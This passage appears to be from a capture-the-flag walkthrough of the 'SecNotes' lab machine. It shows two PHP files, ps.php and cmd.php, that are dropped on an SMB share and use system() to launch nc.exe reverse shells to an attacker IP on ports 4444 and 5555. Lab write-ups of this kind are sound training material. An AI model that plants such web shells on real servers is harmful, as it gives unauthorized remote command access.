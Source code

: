 ![alt](/assets/Images_P3_SecNotes/SecNote_5.png)

Creating `ps.php` and `cmd.php`  as malicious code with `nc.exe` as reverse shell payload. And putting it into SMB file share.
```php
# ps.php
<?php
	system('nc.exe -e powershell.exe 10.10.17.81 4444');
	echo "Payload Executing";
?>
```

```php
# cmd.php
<?php
	system('nc.exe -e cmd.exe 10.10.17.81 5555');
	echo "Payload Executing";
?>
```
